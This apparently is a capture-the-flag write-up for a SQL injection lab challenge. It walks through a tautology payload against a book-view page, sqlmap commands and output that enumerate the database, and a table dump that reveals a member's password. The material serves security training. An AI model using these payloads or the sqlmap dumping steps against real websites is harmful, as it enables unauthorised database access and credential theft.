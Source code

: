 # Challenge #1 - Poema Reading club 5

## Objectives

- You want to find SQL injection vulnerabilities in the website, determining the type of SQL injection and its exploitability You will also have to extract information from the database exploiting the vulnerability
- Find out Ruud password in the database

## Hints

- MySQL

## What you will learn

- How to find SQL injection vulnerabilities manually
- How to determine if a SQL injection is of type "blind" or "error based"
- How to extract information from a database using SQLMap

## Steps

The vulnerable endpoint is on the recommended books -> view book. The error message points to something wrong on this page.

Target url:
http://1.challenge.sqli.site/view_book.php?id=1

"Notice: Undefined index: title in /var/www/challenge.sqli.site/1/view_book.php on line 58"

Change the book number with the payload below.

9999 or 1=1-- -

http://1.challenge.sqli.site/view_book.php?id=9999%20or%201=1--%20-

There is no book with number 9999, as the second part of the payload is 1=1, this will match all books, and so, the page show the first retrieved.

Send the original url to SQLMap.

sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql

After a few moments SQLMap will return with the follow results.

GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 51 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3056=3056

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1358 FROM (SELECT(SLEEP(5)))kXNq)

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-3956 UNION ALL SELECT CONCAT(0x716b7a7a71,0x536147644551706866424944757659684665686b6649426c6d4144727261734458675553774b694f,0x7176707671),NULL,NULL,NULL,NULL,NULL-- -
---

List all databases.

sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql --dbs

[*] information_schema
[*] poema

List all tables from poema database.

sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql -D poema --tables

Retrieve the table club_members and search for the Ruud password in the database

sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql -D poema -T club_members --dump

Database: poema                                                                        
Table: club_members
[30 entries]
| id | zip   | city             | name     | password    | username                                   |
[...]
| 12 | 73544 | Cerritos         | Ruud     | W000Tw0000t | feugiat@nonsollicitudin.org                |
[...]
